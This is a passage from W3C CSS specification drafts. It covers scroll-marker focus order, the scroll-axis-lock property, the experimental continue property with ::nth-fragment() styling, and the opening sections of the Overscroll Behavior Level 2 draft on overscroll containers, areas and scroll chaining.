When a `::scroll-marker` is focused, `:focus-within` additionally matches on the `::scroll-marker-group` it belongs to.

##### 3.3.3.  Focus navigation order {#css-overflow-5:focus-order}

While these pseudo-elements have a defined position in the element tree, this isn’t an optimal position for focus navigation (aka "tab order") for these controls.

Instead, focus navigation between a scroll container and the various pseudo-elements defined in this section goes in the following order:

1. The `::scroll-marker-group` pseudo-elements of the scroll container, if it is set to `scroll-marker-group: before`.

   > **Note:** The individual `::scroll-marker` pseudo-elements generated by the scroll containers descendants are reparented underneath this `::scroll-marker-group`, and navigated together as a "focus group".
2. The `::scroll-button()` pseudo-elements, in the order they’re defined as existing in.
3. The scroll container itself, and its contents, in the normal focus order they would be in.
4. The `::scroll-marker-group` pseudo-elements of the scroll container, if it is set to `scroll-marker-group: after`.

### 4.  Scroll Axis Locking {#css-overflow-5:scroll-axis-locking}

When handling a scroll resulting from a user’s gesture on a page, user agent’s often "lock" the resulting scroll to one axis, i.e. zero out the deltas in the perpendicular axis.

> **Example:** For example, say a user dragged their finger on the screen such that the element undeneath the finger would be scrolled by 500px in the y-axis and 3px in the x-axis. Because the gesture is almost entirely vertical, the user agent might interpret the user’s intent to be a perfectly vertical scroll. As such, the user agent would ignore the 3px scroll delta and all further x-axis deltas for the remainder of the gesture. In this case, the user agent has "locked" the scroll to the y-axis.   In many cases, this improves the user experience by avoiding accidental drift. However, in cases where an author wishes their element to always be diagonally scrollable, e.g. maps or zoomed images, the user would be required to always begin their gesture at an angle that would not trigger the locking.

The `scroll-axis-lock` property lets authors instruct the user agent not to apply any axis locking when the specified element is scrolled.

#### 4.1. The scroll-axis-lock property {#css-overflow-5:scroll-axis-lock}

| Field | Value |
| --- | --- |
| Name: | **scroll-axis-lock** |
| [Value:](#css-values-4:value-defs) | auto \| none |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | scroll container elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `scroll-axis-lock` property specifies whether the user agent may lock scrolls on the element to one axis.

****none****

: The user agent must not lock scrolls on the element to one axis.

****auto****

: The user agent may lock scrolls on the element to one axis.

UAs must apply the `scroll-axis-lock` value set on the root element to the document viewport.

> **Note:** Unlike `overflow` property (and its longhands), a `scroll-axis-lock` value set on the HTML `body` is *not* propagated to the viewport.

### Appendix A: Redirection of Overflow {#css-overflow-5:fragmentation}

> **Issue:** This section is highly experimental. It documents current attempts at extending the capabilities of the `continue` property to solve additional use cases. However, it does not currently have consensus. It is presented here to encourage discussion, but non-experimental implementation is not recommended.

In CSS Level 1 [CSS1], placing more content than would fit inside an element with a specified size was generally an authoring error. Doing so caused the content to extend outside the bounds of the element, which would likely cause that content to overlap with other elements.

CSS Level 2 [CSS2] introduced the `overflow` property, which allows authors to have overflow be handled by scrolling, which means it is no longer an authoring error. It also allows authors to specify that overflow is handled by clipping, which makes sense when the author’s intent is that the content not be shown. This was further refined in the CSS Overflow Module Level 3 [CSS-OVERFLOW-3].

However, scrolling is not the only way to present large amounts of content, and may even not be the optimal way. After all, the codex replaced the scroll as the common format for large written works because of its advantages.

This specification introduces a mechanism for Web pages to specify that an element of a page should handle overflow through pagination rather than through scrolling.

This specification also extends the concept of overflow in another direction. Instead of requiring that authors specify a single area into which the content of an element must flow, this specification allows authors to specify multiple fragments, each with their own dimensions and styles, so that the content of the element can flow from one to the next, using as many as needed to place the content without overflowing.

In both of these cases, implementations must break the content in the block-progression dimension. Implementations must do this is described in the CSS Fragmentation Module [CSS-BREAK-3].

#### Channeling Overflow: the `continue` property {#css-overflow-5:channelling-overflow}

The `continue` property gives authors the ability to request that content that does not fit inside an element be fragmented (in the sense of [CSS-BREAK-3]), and provides alternatives for where the remaining content should continue.

Notably, this property explains traditional pagination, and extends it further.

| Field | Value |
| --- | --- |
| Name: | `continue` |
| [New values:](#css-values-4:value-defs) | overflow \| paginate \| fragments |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | block containers [CSS2], flex containers [CSS3-FLEXBOX], and grid containers [CSS3-GRID-LAYOUT] |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see below |
| [Animation type:](#web-animations-1:animation-type) | discrete |

> **Issue:** The naming of this property and its values is preliminary. This was initially proposed as "fragmentation: auto | none | break | clone | page" in [https://lists.w3.org/Archives/Public/www-style/2015Jan/0357.html](https://lists.w3.org/Archives/Public/www-style/2015Jan/0357.html), and there is not yet wide agreement as to which naming is better.

> **Issue:** This property is meant to generalize and replace `region-fragment`. Once it is sufficiently stable in this specification, `region-fragment` should be removed from the regions specification in favor of this.

> **Note:** `continue: fragments` replaces "overflow:fragments" from earlier versions of this specification, while `continue: paginate` replaces "overflow: paged-x | paged-y | paged-x-controls | paged-y-controls"

**auto**

: `auto` may only occur as a computed value if the element is a CSS Region other than the last one in a region chain. Content that doesn’t fit is pushed to the next region of the chain.

  In all other cases, `auto` computes to one of the other values.

  > **Issue:** this is different from the definition in [CSS Overflow 4 § 5.3 Handling of Excess Content: the continue property](#css-overflow-4:continue), where the specified value is the computed value. Which is model better?

****overflow****

: Content that doesn’t fit overflows, according to the `overflow` property

****paginate****

: Content that doesn’t fit paginates. This creates a paginated view inside the element similar to the way that 'overflow: scroll' creates a scrollable view.

  See [paginated overflow](#css-overflow-5:paginated-overflow)

  > **Note:** Print is effectively "continue: paginate" on the root.

****fragments****

: content that doesn’t fit causes the element to copy itself and continue laying out.

  See [fragment overflow](#css-overflow-5:fragment-overflow).

The computed value of the `continue` for a given element or pseudo-element is determined as follow:

1. On elements or pseudo-elements with layout containment (see [CSS-CONTAIN-1]), if the specified value is `auto` or `fragments` then the computed value is `overflow`.
2. Otherwise, if the specified value is `auto`

  1. On a CSS Region other than the last one in a region chain, the computed value is `auto`
  2. On a page the computed value is `paginate`
  3. On a fragment box the computed value is `fragments`
  4. Otherwise, the computed value is `overflow`
3. Otherwise, if the specified value is `fragments`

  1. On a page the computed value is `paginate`
  2. Otherwise, the computed value is the specified value
4. In all other cases, the computed value is the specified value

> **Issue:** If we introduce a pseudo-element that can select columns in a multicol, we would need to specify that auto computes to auto on it, or introduce a new value and have auto compute to that (but what would that value compute to on things that aren’t columns?).

> **Note:** For background discussions leading to this property, see these threads: [discussion of overflow, overflow-x, overflow-y and overflow-style](http://lists.w3.org/Archives/Public/www-style/2012May/1197.html) and [proposal for a fragmentation property](https://lists.w3.org/Archives/Public/www-style/2015Jan/0357.html)

#### Paginated overflow {#css-overflow-5:paginated-overflow}

This section introduces and defines the meaning of the `paginate` value of the `continue` property.

> **Issue:** Write this section

> **Issue:** Pages should be possible to style with @page rules. How does that work for nested pages?

> **Issue:** Should traditional pagination (e.g. when printing) be expressed through some magic in the computed value of `auto`, or by inserting this in the UA stylesheet:
>
> ```
> @media (overflow-block: paged), (overflow-block: optional-paged) {
>   :root {
>     continue: paginate;
>   }
> }
> ```

> **Issue:** Traditional pagination (e.g. when printing) assumes that :root is contained in the page box, rather than having the page box be a pseudo-element child of :root. Can we work around that using something similar to fragment boxes? Or maybe by having a fragment box (reproducing :root) inside a page box inside :root?

> **Issue:** How does the page box model work when it is a child of a regular css box?

> **Issue:** The initial proposal in [CSS3GCPM] and implementation from Opera used 4 values instead of `paginate`: "paged-x | paged-y | paged-x-controls | paged-y-controls". Should this property also include these values, or are they better handled as separate properties? (e.g.: "pagination-layout: auto | horizontal | vertical", "pagination-controls: auto | none")

> **Issue:** Ability to display N pages at once rather than just one page at once? Could this be a value of "pagination-layout", such as: "pagination-layout: horizontal 2;"

> **Issue:** Brad Kemper has proposed a model for combining pagination and fragment overflow, which also deals with displaying multiple pages. [https://lists.w3.org/Archives/Public/www-style/2015Mar/0241.html](https://lists.w3.org/Archives/Public/www-style/2015Mar/0241.html)

> **Issue:** The current implementation of paginated overflow uses the overflow/overflow-x/overflow-y properties rather than the overflow-style property as proposed in the [CSS3GCPM] draft (which also matches the [CSS3-MARQUEE] proposal). or the `continue` property as described here.

#### Fragmented Overflow {#css-overflow-5:fragment-overflow}

This section introduces and defines the meaning of the `fragments` value of the `continue` property.

When the computed value of `continue` for an element is `fragments`, and implementations would otherwise have created a box for the element, then implementations must create a sequence of **fragment box**es for that element. (It is possible for an element with `continue: fragments` to generate only one fragment box. However, if an element’s computed `continue` is not `fragments`, then its box is not a fragment box.) Every fragment box is a fragmentation container, and any overflow that would cause that fragmentation container to fragment causes another fragment box created as a next sibling of the previous one. Or is it as though it’s a next sibling of the element? Need to figure out exactly how this interacts with other box-level fixup. Additionally, if the fragment box is also a multi-column box (as defined in [css-multicol-1] though it defines *multi-column container*) any content that would lead to the creation of overflow columns [css-multicol-1] instead is flown into an additional fragment box. However, fragment boxes may themselves be broken (due to fragmentation in a fragmentation context outside of them, such as pages, columns, or other fragment boxes); such breaking leads to fragments of the same fragment box rather than multiple fragment boxes. (This matters because fragment boxes may be styled by their index; such breaking leads to multiple fragments of a fragment box with a single index. This design choice is so that breaking a fragment box across pages does not break the association of indices to particular pieces of content.) Should a forced break that breaks to an outer fragmentation context cause a new fragment of a single fragment box or a new fragment box? Should we find a term other than fragment box here to make this a little less confusing?

> **Issue:** What if we want to be able to style the pieces of an element split within another type of fragmentation context? These rules prevent ever using `::nth-fragment()` for that, despite that the name seems the most logical name for such a feature.

> **Example:** | `<!DOCTYPE HTML> <title>Breaking content into equal-sized cards</title> <style> .in-cards { continue: fragments; width: 13em; height: 8em; padding: 4px; border: medium solid blue; margin: 6px; font: medium/1.3 Times New Roman, Times, serif; } </style> <div class="in-cards"> In this example, the text in the div is broken into a series of cards. These cards all have the same style. The presence of enough content to overflow one of the cards causes another one to be created. The second card is created just like it's the next sibling of the first. </div>` | In this example, the text in the div is broken into a series of cards. These cards all have the same style. The presence of enough content to overflow one of the cards causes another one to be created. The second card is created just like it’s the next sibling of the first. |
> | --- | --- |

> **Example:** Authors may wish to style the opening lines of an element with different styles by putting those opening lines in a separate fragment. However, since it may be difficult to predict the exact height occupied by those lines in order to restrict the first fragment to that height, it is more convenient to use the `max-lines` property, which forces a fragment to break after a specified number of lines. This forces a break after the given number of lines contained within the element or its descendants, as long as those lines are in the same block formatting context.
>
> | `<!DOCTYPE HTML> <style> .article { continue: fragments; } .article::first-letter { font-size: 2em; line-height: 0.9; } .article::nth-fragment(1) { font-size: 1.5em; max-lines: 3; } .article::nth-fragment(2) { column-count: 2; } </style> <div class="article"> ... </div>` | The max-lines property allows authors to use a larger font for the first few lines of an article. Without the max-lines property, authors might have to use the `height` property instead, but that would leave a slight gap if the author miscalculated how much height a given number of lines would occupy (which might be particularly hard if the author didn’t know what text would be filling the space, exactly what font would be used, or exactly which platform’s font rendering would be used to display the font). |
> | --- | --- |

> **Issue:** We should specify that `continue: fragments` does not apply to at least some table parts, and perhaps other elements as well. We need to determine exactly which ones.

> **Issue:** This specification needs to say which type of fragmentation context is created so that it’s clear which values of the `break-*` properties cause breaks within this context. We probably want `break-*: region` to apply.

> **Issue:** This specification needs a processing model that will apply in cases where the layout containing the fragments has characteristics that use the intrinsic size of the fragments to change the amount of space available for them, such as [CSS3-GRID-LAYOUT]. There has already been some work on such a processing model in [CSS-REGIONS-1], and the work done on a model there, and the editors of that specification, should inform what happens in this specification.

#### Fragment styling {#css-overflow-5:fragment-styling}

##### The `::nth-fragment()` pseudo-element {#css-overflow-5:fragment-pseudo-element}

The **::nth-fragment()** pseudo-element is a pseudo-element that describes some of the fragment boxes generated by an element. The argument to the pseudo-element takes the same syntax as the argument to the :nth-child() pseudo-class defined in [SELECT], and has the same meaning except that the number is relative to fragment boxes generated by the element instead of siblings of the element.

> **Note:** Selectors that allow addressing fragments by counting from the end rather than the start are intentionally not provided. Such selectors would interfere with determining the number of fragments.

> **Issue:** Depending on future discussions, this `::nth-fragment(an+b)` syntax may be replaced with the new `::fragment:nth(an+b)` syntax.

##### Styling of fragments {#css-overflow-5:style-of-fragments}

> **Issue:** Should this apply to continue:fragments only, or also to continue:paginate? (If it applies, then stricter property restrictions would be needed for continue:paginate.)

In the absence of rules with `::nth-fragment()` pseudo-elements, the computed style for each fragment box is the computed style for the element for which the fragment box was created. However, the style for a fragment box is also influenced by rules whose selector’s subject has an `::nth-fragment()` pseudo-element, if the 1-based number of the fragment box matches that `::nth-fragment()` pseudo-element and the selector (excluding the `::nth-fragment()` pseudo-element) matches the element generating the fragments.

When determining the style of the fragment box, these rules that match the fragment pseudo-element cascade together with the rules that match the element, with the fragment pseudo-element adding the specificity of a pseudo-class to the specificity calculation. Does this need to be specified in the cascading module as well?

> **Example:** | `<!DOCTYPE HTML> <style> .bouncy-columns { continue: fragments; width: 6em; height: 10em; float: left; margin: 1em; font: medium/1.25 Times New Roman, Times, serif; } .bouncy-columns::nth-fragment(1) { background: aqua; color: black; transform: rotate(-3deg); } .bouncy-columns::nth-fragment(2) { background: yellow; color: black; transform: rotate(3deg); } </style> <div class="bouncy-columns"> ... </div>` | In this example, the text in the div is broken into a series of columns. The author probably intended the text to fill two columns. But if it happens to fill three columns, the third column is still created. It just doesn’t have any fragment-specific styling because the author didn’t give it any. |
> | --- | --- |

Styling an `::nth-fragment()` pseudo-element with the `continue` property does take effect; if a fragment box has a computed value of `continue` other than `fragments` then that fragment box is the last fragment. However, overriding `continue` on the first fragment does not cause the fragment box not to exist; whether there are fragment boxes at all is determined by the computed value of overflow for the element.

Styling an `::nth-fragment()` pseudo-element with the `content` property has no effect; the computed value of `content` for the fragment box remains the same as the computed value of content for the element.

Specifying `display: none` for a fragment box causes the fragment box with that index not to be generated. However, in terms of the indices used for matching `::nth-fragment()` pseudo-elements of later fragment boxes, it still counts as though it was generated. However, since it is not generated, it does not contain any content.

Specifying other values of `display`, `position`, or `float` is permitted, but is not allowed to change the inner display type. (Since `continue` only applies to block containers, flex containers, and grid containers). Need to specify exactly how this works

To match the model for other pseudo-elements where the pseudo-elements live inside their corresponding element, declarations in `::nth-fragment()` pseudo-elements override declarations in rules without the pseudo-element. The relative priority within such declarations is determined by normal cascading order (see [CSS2]).

Styles specified on `::nth-fragment()` pseudo-elements do affect inheritance to content within the fragment box. In other words, the content within the fragment box must inherit from the fragment box’s style (i.e., the pseudo-element style) rather than directly from the element. This means that elements split between fragment boxes may have different styles for different parts of the element.

> **Issue:** This inheritance rule allows specifying styles indirectly (by using explicit `inherit` or using default inheritance on properties that don’t apply to `::first-letter`) that can’t be specified directly (based on the rules in the next section). This is a problem. The restrictions that apply to styling inside fragments should also apply to inheritance from fragments.

> **Example:** | `<!DOCTYPE HTML> <style> .article { continue: fragments; } .article::nth-fragment(1) { font-size: 1.5em; margin-bottom: 1em; height: 4em; } .article::nth-fragment(2) { margin-left: 5em; margin-right: 2em; } </style> <div class="article"> The <code>font-size</code> property... </div>` | The `font-size` property specified on the fragment is inherited into the descendants of the fragment. This means that inherited properties can be used reliably on a fragment, as in this example. |
> | --- | --- |

##### Styling inside fragments {#css-overflow-5:style-in-fragments}

> **Issue:** Should this apply to continue:fragments only, or also to continue:paginate?

The `::nth-fragment()` pseudo-element can also be used to style content inside of a fragment box. Unlike the `::first-line` and `::first-letter` pseudo-elements, the `::nth-fragment()` pseudo-element can be applied to parts of the selector other than the subject: in particular, it can match ancestors of the subject. However, the only CSS properties applied by rules with such selectors are those that apply to the `::first-letter` pseudo-element.

To be more precise, when a rule’s selector has `::nth-fragment()` pseudo-elements attached to parts of the selector other than the subject, the declarations in that rule apply to a fragment (or pseudo-element thereof) when:

1. the declarations are for properties that apply to the `::first-letter` pseudo-element,
2. the declarations would apply to that fragment (or pseudo-element thereof) had those `::nth-fragment()` pseudo-elements been removed, with a particular association between each sequence of simple selectors and the element it matched, and
3. for each removed `::nth-fragment()` pseudo-element, the fragment lives within a fragment box of the element associated in that association with the selector that the pseudo-element was attached to, and whose index matches the pseudo-element.

> **Example:** | `<!DOCTYPE HTML> <style> .dark-columns { continue: fragments; width: 6em; height: 10em; float: left; margin-right: 1em; font: medium/1.25 Times New Roman, Times, serif; } .dark-columns::nth-fragment(1) { background: aqua; color: black; } .dark-columns::nth-fragment(1) :link { color: blue; } .dark-columns::nth-fragment(1) :visited { color: purple; } .dark-columns::nth-fragment(2) { background: navy; color: white; } .dark-columns::nth-fragment(2) :link { color: aqua; } .dark-columns::nth-fragment(2) :visited { color: fuchsia; } </style> <div class="dark-columns"> ... </div>` | In this [example](http://en.wiktionary.org/wiki/example), the text flows from one light-colored fragment into another dark-colored fragment. We therefore want different styles for [hyperlinks](http://www.w3.org/Provider/Style/IntoContext.html) in the different fragments. |
> | --- | --- |

---

## CSS Overscroll Behavior Module Level 2 {#css-overscroll-2}

- **Shortname:** `css-overscroll-2`
- **Editor's Draft:** [https://drafts.csswg.org/css-overscroll-2/](https://drafts.csswg.org/css-overscroll-2/)
- **Published TR:** [https://www.w3.org/TR/css-overscroll-2/](https://www.w3.org/TR/css-overscroll-2/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-10-12

### 1. Introduction {#css-overscroll-2:intro}

This module defines CSS features relating to scroll chaining, boundary default actions, and overscroll areas positioned beyond the scroll boundary of a container. It supersedes and extends [CSS-OVERSCROLL-1], and is organized into the following sections:

**[Overscroll Containers and Areas](#css-overscroll-2:overscroll-containers-and-areas)**

: Defines overscroll containers, overscroll areas, the `overscroll-container-type` property, the `:overscroll-open` and `:overscroll-closed` pseudo-classes, and the `::overscroll-backdrop` pseudo-element.

**[The Box Model](#css-overscroll-2:box-model)**

: Defines the anonymous overscroll area parent scroll container box, out-of-flow positioning and mandatory scroll snapping of overscroll areas, painting order, and push vs. overlay translation.

**[Scroll Chaining and Boundary Default Actions](#css-overscroll-2:scroll-chaining-and-boundary-default-actions) and [Overscroll Behavior Properties](#css-overscroll-2:overscroll-behavior-properties)**

: Defines scroll chaining, the scroll chain order for overscroll containers and overscroll areas, boundary default actions, and the `overscroll-behavior` property and its physical and flow-relative longhands.

**[Overscroll Events](#css-overscroll-2:overscroll-events)**

: Defines the `OverscrollEvent` interface and the `overscrollstart`, `overscrollchanging`, `overscrollend`, and `overscrollcancel` events.

**[Appendix A: HTML Specification Changes](#css-overscroll-2:html-spec-changes)**

: Defines the HTML overscrollcontainer and overscrollarea attributes, the `toggle-overscroll`, `show-overscroll`, and `hide-overscroll` command invokers, container-scoped inert rules, and `GlobalEventHandlers` additions.

#### 1.1. Value Definitions {#css-overscroll-2:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

#### 1.2. Module Interactions {#css-overscroll-2:placement}

This module extends scrolling and overflow concepts defined in [CSS-OVERFLOW-3], [CSS-SCROLL-SNAP-1], [CSS-SCROLL-SNAP-2], [CSS-POSITION-4], and [CSSOM-VIEW-1].

### 2. Overscroll Containers and Areas {#css-overscroll-2:overscroll-containers-and-areas}

A common UI pattern is to have large but rarely-needed UI elements, such as nav lists, be displayed "off-screen" at first, and then revealed either by scrolling in that direction or by activating some "reveal" button. Designing this pattern correctly, with all accessibiilty considerations taken care of, is fairly complicated to do by hand and requires scripting; the overscroll container and overscroll area concepts defined here handle all of this automatically for the author, making this pattern very easy to use correctly.

If an element is defined as an overscroll container, some of its children can be defined as overscroll areas, which wraps them in an anonymous scroll container sized to the overscroll container, and makes them absolutely positioned so they can be initially positioned "outside" of the overscroll container, hiding them from view. They’re then revealed (or hidden) by overscroll behavior on the overscroll container, or by dedicated command invokers, which scroll them into view or back to their original position.

Overscroll areas can additionally be styled with the `:overscroll-open` or `:overscroll-closed` pseudo-classes, and have an `::overscroll-backdrop` pseudo-element which is displayed while the overscroll area is "open" (similar to the `::backdrop` pseudo-element that accompanies fullscreen elements).

#### 2.1. Overscroll Containers {#css-overscroll-2:overscroll-containers}

An **overscroll container** is an element that:

1. Generates a principal box whose inner display type is not `table`, and that is neither an internal table box, an internal ruby box, nor a non-atomic inline-level box; and
2. Is a **potential overscroll container**, as defined by the host language. (In HTML, this is an element with the overscrollcontainer attribute; see [Content and IDL Attributes](#css-overscroll-2:html-attributes)); and
3. Has a computed `overscroll-container-type` other than `none`.

> **Note:** An overscroll container does not have to be a scroll container (its `overflow` may be `visible`).

#### 2.2. Overscroll Areas {#css-overscroll-2:overscroll-areas}

An element *area* is an **overscroll area** if all of the following are true:

1. *area* is a **potential overscroll area** as defined by the host language (In HTML, this is an element with the overscrollarea attribute; see [Content and IDL Attributes](#css-overscroll-2:html-attributes)); and
2. *area*’s flat tree parent element is an overscroll container in the same tree scope as *area*; and
3. *area* is not in the top layer; and
4. *area* is the target of at least one show invoker or toggle invoker in the same tree scope as *area* (see [Command Invokers](#css-overscroll-2:html-invoker-commands)).

If any of these conditions ceases to hold, *area* ceases to be an overscroll area and is laid out as an ordinary child of its parent.

**Opening** an overscroll area brings the overscroll area into its overscroll container’s scrollport by scrolling its overscroll area parent, whether via user scroll chaining or by activating an overscroll invoker.

#### 2.3. The `overscroll-container-type` Property {#css-overscroll-2:overscroll-container-type-property}

| Field | Value |
| --- | --- |
| Name: | **overscroll-container-type** |
| [Value:](#css-values-4:value-defs) | auto \| push \| overlay \| none |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

The `overscroll-container-type` property specifies whether a potential overscroll container establishes an overscroll container, and how opening its overscroll areas affects the container’s content.

****auto****

: Behaves as `push`.

  > **Note:** The definition of `auto` may change as usage experience is gained.

****push****

: The element can establish an overscroll container. Opening an overscroll area both shifts the overscroll area into view, and shifts the container’s content the same way to avoid overlap. (See [§ 3.4 Stacking and Push Translation](#css-overscroll-2:overscroll-stacking-and-push).)

****overlay****

: The element can establish an overscroll container. Opening an overscroll area shifts only the overscroll area, overlaying it on top of the stationary container content. (See [§ 3.4 Stacking and Push Translation](#css-overscroll-2:overscroll-stacking-and-push).)

****none****

: The element does not establish an overscroll container.

> **Example:** In this example, `#drawer` is an overscroll area positioned outside the inline-start edge of its parent overscroll container. On wide screens, a media query applies `overscroll-container-type: none`, so the drawer instead lays out as a normal side panel:
>
> ```html
> <button commandfor="drawer" command="toggle-overscroll">Menu</button>
> <div id="container" overscrollcontainer>
>   <nav id="drawer" overscrollarea>...</nav>
>   <main>...</main>
> </div>
> ```
>
> ```css
> #container {
>   overscroll-container-type: overlay;
>   overflow: auto;
> }
> #drawer {
>   right: 100%;
>   width: 250px;
>   height: 100%;
> }
> @media (min-width: 900px) {
>   #container {
>     overscroll-container-type: none;
>     display: grid;
>     grid-template-columns: 250px auto;
>   }
> }
> ```

#### 2.4. The `:overscroll-open` and `:overscroll-closed` Pseudo-Classes {#css-overscroll-2:overscroll-open-pseudo}

The **:overscroll-open** pseudo-class matches an overscroll area whose overscroll area parent is in the overscrolling state (see [§ 6.1 Event Dispatch](#css-overscroll-2:overscroll-event-dispatch)).

The **:overscroll-closed** pseudo-class matches an overscroll area whose overscroll area parent is not in the overscrolling state.

> **Note:** An element that is not a valid overscroll area (for example, when its parent has `overscroll-container-type: none` or when it lacks a valid show invoker or toggle invoker) matches neither `:overscroll-open` nor `:overscroll-closed`.

#### 2.5. The `::overscroll-backdrop` Pseudo-Element {#css-overscroll-2:overscroll-backdrop-pseudo}

Each overscroll area originates a **::overscroll-backdrop** fully styleable pseudo-element.

When generated, the `::overscroll-backdrop` box is a child of its originating element’s overscroll area parent, painted immediately behind the overscroll area. Its containing block is the fixed containing block of the overscroll area parent, so it remains aligned with that overscroll area parent’s scrollport rather than scrolling with the overscroll area.

> **Note:** Because `::overscroll-backdrop` uses the fixed containing block of its own overscroll area parent, scrolling that overscroll area parent to open its overscroll area does not move the backdrop. However, in `push` mode, if another overscroll area higher in the stack is opened, that higher overscroll area parent’s scroll translation shifts this overscroll area parent and its `::overscroll-backdrop` along with the rest of the underlying content.

### 3. The Box Model {#css-overscroll-2:box-model}

#### 3.1. Containment and Clipping on the Overscroll Container {#css-overscroll-2:overscroll-container-box}

An overscroll container establishes layout containment (as if `contain: layout` were applied) and clips its overscroll area parent boxes to its padding box.

#### 3.2. The Overscroll Area Parent Box {#css-overscroll-2:overscroll-area-parent-box}

For each overscroll area *area* of an overscroll container *container*, the user agent generates an anonymous scroll container box called *area*’s **overscroll area parent**:

1. *area*’s overscroll area parent is a layout child of *container*’s principal box. It is out-of-flow positioned (`position: absolute`, `inset: 0`, `display: block`) with *container*’s fixed containing block as its containing block.
2. The overscroll area parent establishes a scroll container (`overflow: auto`, `scrollbar-width: none`, `pointer-events: none`) that inherits `overscroll-behavior` and `scroll-behavior` from *area*. Unlike standard scroll containers, its scrollable overflow area is not clamped at the scroll origin; it extends in all four physical directions (top, left, bottom, right) to enclose both its local containing block origin (`(0, 0)` of size equal to *container*’s scrollport) and *area*’s border box.
3. *area*’s `::overscroll-backdrop` box and *area*’s principal box are reparented as the children of *area*’s overscroll area parent, in that order.

> **Note:** The overscroll area parent can be implemented as a non-exposed pseudo-element originating on the overscroll area (which inherits `overscroll-behavior` and `scroll-behavior` from the overscroll area), subject to the box tree reparenting above.

#### 3.3. Positioning and Snapping of Overscroll Areas {#css-overscroll-2:overscroll-area-positioning}

Every overscroll area *area* is laid out and snapped within its overscroll area parent *scroller* as follows:

1. If *area*’s specified `position` is not `absolute` or `fixed`, its computed `position` is `absolute`. If *area*’s specified `display` is `contents`, its computed `display` is `block`; otherwise its `display` is blockified. *area*’s containing block is *scroller*’s local containing block.
2. *scroller* is a scroll snap container (`scroll-snap-type: pair mandatory`) that ignores `scroll-snap-align` on descendants and establishes two scroll snap areas:

  - An initial scroll snap area equal to the rectangle of *scroller*’s scrollport at scroll offset `(0, 0)`, with `scroll-snap-align: center` and `scroll-snap-stop: always`. This is *scroller*’s initial scroll position.
  - A target scroll snap area equal to *area*’s border box, with `scroll-snap-align: center` and `scroll-snap-stop: normal`.

> **Note:** Defining mandatory scroll snap areas at the initial scroll position and at the overscroll area ensures that scrolling settles with the overscroll area either fully open or fully closed, rather than stopping partway in between.

#### 3.4. Stacking and Push Translation {#css-overscroll-2:overscroll-stacking-and-push}

When an overscroll container *container* has overscroll areas *area*1, *area*2, …, *area**n* in flat tree order, with corresponding overscroll area parent boxes *scroller*1, *scroller*2, …, *scroller**n*:

1. All overscroll area parent boxes of *container* are stacked and painted after *container*’s in-flow and positioned descendants, in reverse flat tree order: *scroller**n* paints first (immediately above *container*’s regular content), followed by *scroller**n*−1, …, *scroller*1, with *scroller*1 painting last (on top of all other content in *container*).

   > **Note:** The stacking order is the reverse of the dom order so that when a user scrolls these areas into view the earlier element and its backdrop is visible above the earlier scrolled into view area.
2. Transform hierarchy:

  - If *container*’s computed `overscroll-container-type` is `overlay`, each *scroller**k*’s scroll translation applies only to *scroller**k*’s own children (*area**k*’s `::overscroll-backdrop` and *area**k*).
  - If *container*’s computed `overscroll-container-type` is `push` or `auto`, each *scroller**k*’s scroll translation also applies to *scroller**k*+1 … *scroller**n* and to *container*’s content (offset by *scroller**k*’s scroll origin). Consequently, scrolling *scroller**k* translates *container*’s regular content and any lower overscroll areas by the same scroll offset.

#### 3.5. Default UA Stylesheet {#css-overscroll-2:ua-stylesheet}

Each overscroll area parent is styled as if the following declarations were applied:

```css
display: block;
position: absolute;
inset: 0;
overflow: auto;
overscroll-behavior: inherit;
pointer-events: none;
scroll-behavior: inherit;
scroll-snap-type: pair mandatory;
scrollbar-width: none;
```

User agents must apply the following default stylesheet rules for overscroll areas and `::overscroll-backdrop`:

```css
:overscroll-closed {
  interactivity: inert;
}

::overscroll-backdrop {
  display: none;
  position: absolute;
  inset: 0;
  background-color: light-dark(alpha(from black / .1), alpha(from white / .1));
}

:overscroll-open::overscroll-backdrop {
  display: block;
}
```

### 4. Scroll Chaining and Boundary Default Actions {#css-overscroll-2:scroll-chaining-and-boundary-default-actions}

#### 4.1. Scroll Chaining Order {#css-overscroll-2:scroll-chaining-order}

**Scroll chaining** is when scrolling is propagated from one scroll container to an ancestor scroll container following the scroll chain. Chaining occurs when a scroll container’s scrollport has reached its scroll boundary.

**Scroll boundary** refers to when the scroll position of a scroll container reaches the edge of the scrollport. If a scroll container (or overscroll container) has no potential to scroll because it does not overflow in the direction of the scroll, it is always considered to be at the scroll boundary. A single-axis scroll container only has a scroll boundary in its scrollable axis; if the scroll is in its other axis, this element is not part of the scroll chain unless it is an overscroll container with an overscroll area parent scrollable in that axis.

A **scroll chain** is the order in which scrolling is propagated from one scroll container to another:

1. For an overscroll container *container* with overscroll areas *area*1, *area*2, …, *area**n* in flat tree order and corresponding overscroll area parent boxes *scroller*1, *scroller*2, …, *scroller**n*, the scroll parent links between *container* and *container*’s nearest ancestor scroll container *ancestor* are ordered as:

   *container* → *scroller**n* → *scroller**n*−1 → … → *scroller*1 → *ancestor*

   Consequently:

